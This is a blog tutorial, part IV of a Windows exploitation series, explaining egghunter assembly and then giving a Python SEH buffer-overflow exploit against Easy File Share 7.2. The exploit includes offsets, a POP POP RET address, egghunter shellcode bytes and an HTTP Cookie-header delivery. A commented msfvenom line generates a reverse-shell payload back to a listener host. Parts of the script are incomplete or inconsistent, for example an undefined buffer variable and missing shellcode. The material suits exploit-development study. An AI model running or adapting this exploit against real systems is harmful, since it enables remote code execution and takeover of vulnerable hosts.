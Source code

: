 ```yaml
---
layout: post
title:  "Windows Exploitation Part IV"
date:   2020-1-1 00:04:00 +0000
categories: Windows-Exploitation
---
```


# Windows Exploitation Part IV - Egghunting
For this part, we will need to use all the knowledge weve gained in all the parts before this. This particular exploit will be a stack buffer overflow with seh and what we will learn to be an egg and an egghunter.

# What is egghunting?
When we wish to exploit an application with limited buffer space, our shellcode may not be able to execute. Egghunting is a method of storing and retrieving the shellcode within memory that uses a stored word or 'egg'.
We then introduce a small piece of assembly to search the entire stack frame for that egg, since we prepad our shellcode with the egg, once the code finds and jumps to the next instruction, our shellcode should execute.
When running the egghunter, we will notice that windows system resources will spike, this is due to the egghunter searching the entirety of the stack, the spike will subside once the egg is found or the memory is depleted.

# Egghunter assembly
Im going to attempt to make sense of a sample egghunter so hopefully it makes sense. Im not an amazing assembly god but this should make sense to anyone. This particular sample is from the Skape guide which ill reference later.

Assembly breakdown:
```

00000000	6681CAFF0F	or dx, 0xfff	# OR DX with 4096
00000005	42		inc edx		# INCREMENT edx
00000006	52		push edx	# PUSH edx
00000007	6A43		push byte +0x43	# PUSH the byte at +0x43
00000009	58		pop eax		# POP eax
0000000A	CD2E		int 0x2e	# INTERUPT (ntdll)
0000000C	3C05		cmp al, 0x5	# COMPARE AL to 5
0000000E	5A		pop edx		# POP edx
0000000F	74EF		jz 0x0		# Jump if Zero
00000011	B890505090	mov eax, 0x50909050	# MOVE egg to eax
00000016	8BFA		mov edi, edx	# MOVE edx to edi
00000018	AF		scasd		# SCAN(cmp eax with edi)
00000019	75EA		jnz 0x5		# Jump if Not Zero (to 5)
0000001B	AF		scasd		# SCAN(cmp eax with edi)
0000001C	75E7		jnz 0x5		# Jump if Not Zero(to 5)
0000001E	FFE7		jmp edi		# Jump to edi # both ifs
```

# TL;DR
is that this piece of code will slowly increment through the stack space looking for a stored word (commonly 'W00T', as it is highly unlikely to appear normally). You will notice that there are 2 checks, this is because there is instances where the hunter may find parts of itself or other remnants
Two checks means we need to prepend 2 eggs to the beginning of our shellcode. Once the 2 checks are met, the egghunter jumps to the top of our shellcode and we get execution.

# Exploit building
Now that we know a little about how things _should_ work, we should test this out. The application i first learnt to do this method of exploitation on is 'Easy File Share 7.2' and as mentioned before, we will need to use what we learnt about SEH and buffer overflows to work this.



# Putting it all together
Final exploit should look something like this, ive kept all the rubbish from dev in as a reference.
{% highlight python %}
import socket
rhost = "192.168.9.147" # vm local address
rport = 80

max_size = 5000
seh_off = 4059
eax_off = 4183
nseh = "\x90\x90\xeb\x0a" # short jump by 10 bytes over seh
seh = "\xf2\x95\x01\x10" # POP POP RET (0x100195f2)
pad = "A" * (eax_off - len(buffer))
pad += "DDDD"

# pattern buffer was removed.
#buffer = "A" * (max_size - len(buffer))
'''#bad char checks -> \x00 & \x3b are bad
charchexhere
'''
#egg = w00t (*2)
hunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
hunter +="\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.9.135 LPORT=443 -b "\x00\x3b" -f python
#non meterpreter non staged payload


# Setting up our delivery
httprequest = (
"GET / HTTP/1.1\r\n"
"User-Agent: w00tw00t" + buf + "\r\n"
"Host:" + rhost + ":" + str(rport) + "\r\n"
"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
"Accept-Language: en-us\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"Referer: http://" + rhost + "/\r\n"
"Cookie: SESSIONID=6671; UserID=" + buffer + nseh + seh + "A"*8 + hunter + pad + ";PassWD=;\r\n"
"Connection: Keep-Alive\r\n\r\n"
)

# socket setup to send payload to remote host
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[!] sending payload"
s.connect((rhost,rport))
print "[!] Sent!"
s.send(httprequest)
s.close
{% endhighlight %}

# Extra Resources
[Skape - the og egghunting guide](link)
[Corelan Team egghunting guide](link)
[Easy File Share 7.2 download](link)

# Next
Not too sure what to cover next, either going to continue this style and cover ROP / x64 or go deeper and look into more kernel-y stuff.

<br>
Windows Exploitation:
[I](/windows-exploitation/2020/01/01/WinExplP1.html)	[II](/windows-exploitation/2020/01/01/WinExplP2.html)	[III](/windows-exploitation/2020/01/01/WinExplP3.html)	[IV](/windows-exploitation/2020/01/01/WinExplP4.html)	[V](/windows-exploitation/2020/01/01/WinExplP5.html)



